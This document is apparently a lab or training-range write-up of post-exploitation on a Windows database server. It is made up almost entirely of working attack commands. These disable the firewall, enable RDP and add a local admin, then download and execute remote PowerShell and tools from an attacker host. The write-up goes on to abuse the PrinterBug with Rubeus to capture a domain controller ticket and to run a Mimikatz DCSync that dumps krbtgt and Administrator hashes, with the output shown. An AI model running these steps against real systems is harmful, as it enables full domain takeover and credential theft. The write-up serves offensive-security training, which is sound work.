








# Post Exploit - DB-Server

- [Post Exploit - DB-Server](#post-exploit---db-server)
  - [Persistence - DB-Server (10.1.3.2)](#persistence---db-server-10132)

---

## Persistence - DB-Server (10.1.3.2)

First enable RDP on the host since we have the SYSTEM privilege.

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

<br/>

Also turn off the firewall:

```
netsh advfirewall set allprofiles state off
```

  

<br/>

Add the user `operations\iisadmin` in the local admins.

```
net localgroup administrators operations\iisadmin /add
```

  


<br/>

Then RDP to the host via proxychains:

```
proxychains xfreerdp /size:85% /u:iisadmin /p:'Head!!S%$#@!' /v:10.1.3.2
```

  


<br/>

Launch `powershell.exe` with Admin Privilege and download `PowerView_dev.ps1`:

```
cd C:\Users\Public\ && iex (New-Object Net.WebClient).DownloadString("http://192.168.100.11/PowerView_dev.ps1")
```

<br/>

Enumerate Computers with Unconstrained Delegation: 

```
Get-NetComputer -Unconstrained
```

<br/>

  

* The current computer where we have local admin privilege has unconstrained delegation

<br/>

Considering that it is a Server 2016, there is a chance that the `PrinterBug` would work, forcing DC to leave a TGT on the current machine.

<br/>

Download the essential tools for the attack `Rubeus.exe` and `MS-RPRN.exe`:

```
wget http://192.168.100.11/MS-RPRN.exe -OutFile .\MS-RPRN.exe
wget http://192.168.100.11/Rubeus.exe -OutFile .\Rubeus.exe
```

<br/>

With 2 shells opening run the following respectively:

```
# 1st shell

.\Rubeus.exe monitor /interval:5
```

```
# 2nd shell

.\MS-RPRN.exe \\ops-childdc.operations.atomic.site \\DB-Server.operations.atomic.site
```

  

* As shown, TGT from CHILD-DC's machine account is obtained.

<br/>

Copy and store the base64-encoded tgt into a variable `$tgt`:

```
$tgt = "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"
```

  

<br/>

Then remove the new line characters using:

```
$tgt_new = $tgt -replace("\n", "")
```

  

<br/>

Use Pass-the-Ticket technique to import the TGT:
```
.\Rebeus.exe ptt /ticket:$tgt_new
```

  

<br/>

Then, use Mimikatz to perform a DCSync to dump the credential of `operations\krbtgt`:

```
iex (New-Object Net.WebClient).DownloadString("http://192.168.100.11/Invoke-Mimikatz.ps1")
```

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:operations/krbtgt"'
```

```
SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/29/2020 4:58:57 PM
Object Security ID   : S-1-5-21-3757735274-1965336150-1982876978-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 8e2b8effbf6735b8fb5be206cb3dfead
    ntlm- 0: 8e2b8effbf6735b8fb5be206cb3dfead
    lm  - 0: 284b32bae998ce25de184583e0d9e68a

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 623477e7556db979c1763d799bb55ee0

* Primary:Kerberos-Newer-Keys *
    Default Salt : OPERATIONS.ATOMIC.SITEkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : e3086e040ac4199bfac3f3c74a8a4445283fe6e91df566a02e6568340eb0ae2d
      aes128_hmac       (4096) : 04b564e3ad170addb86374e318463ec3
      des_cbc_md5       (4096) : 04586b26454cd9c2

* Primary:Kerberos *
    Default Salt : OPERATIONS.ATOMIC.SITEkrbtgt
    Credentials
      des_cbc_md5       : 04586b26454cd9c2
```
* Krbtgt NTLM: `8e2b8effbf6735b8fb5be206cb3dfead`

<br/>

Do the same for the Domain Admin:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:operations\administrator"'
```

```
SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 1/1/1601 5:30:00 AM
Password last change : 6/20/2020 3:09:56 PM
Object Security ID   : S-1-5-21-3757735274-1965336150-1982876978-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 5984a430e639891136c94918e6846f24
    ntlm- 0: 5984a430e639891136c94918e6846f24
    ntlm- 1: c87d4d8fc868407d61baabf4c1b1dbbc
    ntlm- 2: 5984a430e639891136c94918e6846f24
    lm  - 0: 0c675d65c3d77e0636dcb65deea38511
    lm  - 1: 5e5af269bf85aaeb7daa086023590c85

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : e8ec0c8fa34cf7203edba42e6493edc6
```

* `Administrator` NTLM: `5984a430e639891136c94918e6846f24`


